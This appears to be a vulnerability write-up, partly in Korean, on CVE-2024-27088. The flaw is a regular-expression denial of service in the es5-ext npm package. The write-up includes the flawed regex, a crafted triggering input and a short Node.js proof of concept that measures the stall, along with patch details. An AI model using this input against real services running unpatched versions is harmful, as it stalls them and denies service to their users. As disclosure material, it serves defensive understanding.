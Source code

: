# CVE-2024-27088



## 취약점 개요

- CVE-2024-27088

- Feb 26, 2024

- ReDoS in node.js package

- rebob 프로젝트의 일환

## 취약점 설명

[github advisories](https://github.com/medikoo/es5-ext/security/advisories/GHSA-4gmj-3p3h-gm8h)

```
/^\sfunction\s([\0-')-\uffff]+)\s(([\0-(-\uffff]))\s*{/
```

This vulnerability can be exploited when there is an imbalance in parentheses, which results in excessive backtracking and subsequently increases the CPU load and processing time significantly. This vulnerability can be triggered using the following input:

`'function{' + 'n'.repeat(31) + '){'`

Here is a simple PoC code to demonstrate the issue:

```
const protocolre = /^\sfunction\s([\0-')-\uffff]+)\s(([\0-(-\uffff]))\s*{/;

const startTime = Date.now();
const maliciousInput = 'function{' + 'n'.repeat(31) + '){'

protocolre.test(maliciousInput);

const endTime = Date.now();

console.log("process time: ", endTime - startTime, "ms");
```




**Impact**

Passing functions with very long names or complex default argument names into function#copy orfunction#toStringTokens may put script to stall

**Patches**
Fixed with 3551cdd and a52e957
Published with v0.10.63

**Workarounds**
No real workaround aside of refraining from using above utilities.

[issue](https://github.com/medikoo/es5-ext/issues/201)
[target package](https://www.npmjs.com/package/es5-ext)
